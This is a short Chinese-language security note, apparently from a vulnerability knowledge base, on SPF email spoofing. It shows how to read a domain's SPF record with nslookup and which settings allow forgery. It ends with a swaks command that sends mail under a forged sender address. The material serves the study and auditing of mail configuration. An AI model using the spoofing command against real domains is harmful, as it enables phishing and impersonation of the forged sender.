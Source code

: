 ## 1. PoC

检测 spf 记录

```
┌──(root@debian)-[~]
└─# nslookup -type=TXT example.com
Server:         8.8.8.8
Address:        8.8.8.8#53

Non-authoritative answer:
example.com     text = "_k2n1y4vw3qtb4skdx9e7dxt97qrmmq9"
example.com     text = "v=spf1 -all"

Authoritative answers can be found from:
```

```
v=spf1 -all: 无法伪造
v=spf1 ~all, v=spf1 ?all: 可能伪造
无 v=spf1 或 v=spf1 +all: 极易伪造
```

使用 [SPF Query Tool ](https://www.kitterman.com/spf/validate.html) 解析 SPF 记录是否配置正确, 若配置错误则可尝试绕过 SPF 保护

![使用 SPF Query Tool 解析 SPF 记录是否配置正确, 若配置错误则可尝试绕过 SPF 保护](./../../../images/SPF%20%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E4%BD%BF%E7%94%A8%20SPF%20Query%20Tool%20%E8%A7%A3%E6%9E%90%20SPF%20%E8%AE%B0%E5%BD%95%E6%98%AF%E5%90%A6%E9%85%8D%E7%BD%AE%E6%AD%A3%E7%A1%AE,%20%E8%8B%A5%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF%E5%88%99%E5%8F%AF%E5%B0%9D%E8%AF%95%E7%BB%95%E8%BF%87%20SPF%20%E4%BF%9D%E6%8A%A4.png)

配置正确

```
v=spf1 include:spf1.example.com include:spf2.example.com include:spf3.example.com include:spf4.example.com -all
```

![配置正确](./../../../images/SPF%20%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E9%85%8D%E7%BD%AE%E6%AD%A3%E7%A1%AE.png)

配置错误

```
v=spf1 include:spf1.example.com spf2.example.com spf3.example.com spf4.example.com -all
```

![配置错误](./../../../images/SPF%20%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF.png)

## 2. Exploit

伪造 example 向 test 发送邮件

```
┌──(root-kali)-[~]          
└─# swaks --body "Hello, World!" --header "Subject:example" -t admin@test.com -f admin@example.com
```

```
--body   邮件内容
--header 邮件标题
-t       目标邮箱
-f       伪造邮箱
```

